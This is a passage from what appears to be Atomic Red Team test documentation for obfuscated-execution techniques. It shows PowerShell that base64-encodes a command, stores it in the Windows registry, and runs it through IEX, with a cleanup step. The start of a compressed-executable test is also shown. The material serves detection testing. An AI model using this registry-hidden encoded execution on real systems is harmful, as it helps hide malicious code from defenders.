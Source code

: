 


#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| registry_key_storage | Windows Registry Key to store code | string | HKCU:Software&#92;Microsoft&#92;Windows&#92;CurrentVersion|
| powershell_command | PowerShell command to encode | string | Write-Host "Hey, Atomic!"|
| registry_entry_storage | Windows Registry entry to store code under key | string | Debug|


#### Attack Commands: Run with `powershell`! 


```powershell
$OriginalCommand = '#{powershell_command}'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($OriginalCommand)
$EncodedCommand =[Convert]::ToBase64String($Bytes)
$EncodedCommand

Set-ItemProperty -Force -Path #{registry_key_storage} -Name #{registry_entry_storage} -Value $EncodedCommand
powershell.exe -Command "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp #{registry_key_storage} #{registry_entry_storage}).#{registry_entry_storage})))"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Force -ErrorAction Ignore -Path #{registry_key_storage} -Name #{registry_entry_storage}
```





<br/>
<br/>

## Atomic Test #4 - Execution from Compressed File
Mimic execution of compressed executable. When successfully executed, calculator.exe will open.

**Supported Platforms:** Windows


**auto_generated_guid:** f8c8a909-5f29-49ac-9244-413936ce6d1f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url_path | url to download Exe | url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1027/bin/T1027.zip|

